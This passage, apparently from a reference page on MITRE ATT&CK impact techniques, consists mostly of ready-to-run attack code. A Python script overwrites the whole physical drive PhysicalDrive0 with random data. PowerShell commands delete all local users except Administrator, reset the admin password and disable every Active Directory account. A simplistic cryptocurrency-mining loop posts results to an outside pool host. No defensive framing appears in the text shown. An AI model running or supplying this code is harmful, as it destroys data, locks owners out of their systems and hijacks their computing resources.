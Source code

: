 ### 6. Disk Wipe (T1561)

```python
import os

def wipe_disk(drive):
    """Overwrite disk with random data"""
    block_size = 4096
    
    with open(drive, 'wb') as f:
        while True:
            try:
                f.write(os.urandom(block_size))
            except:
                break

# Wipe entire disk (DANGEROUS)
wipe_disk('\\\\.\\PhysicalDrive0')
```

### 7. Account Access Removal (T1531)

```powershell
# Delete user accounts
Get-LocalUser | Where-Object {$_.Name -ne "Administrator"} | Remove-LocalUser -Force

# Reset admin password
net user Administrator NewRandomPassword123!

# Disable accounts
Get-ADUser -Filter * | Disable-ADAccount
```

### 8. Resource Hijacking (T1496)

```python
# Cryptocurrency mining
import hashlib
import requests

def mine_cryptocurrency():
    """CPU-intensive mining operation"""
    nonce = 0
    while True:
        data = f"mining_data_{nonce}".encode()
        hash_result = hashlib.sha256(data).hexdigest()
        
        if hash_result.startswith('0000'):
            # Submit to mining pool
            requests.post('http://mining-pool.com/submit', data={'hash': hash_result})
        
        nonce += 1

# Start mining
mine_cryptocurrency()
```
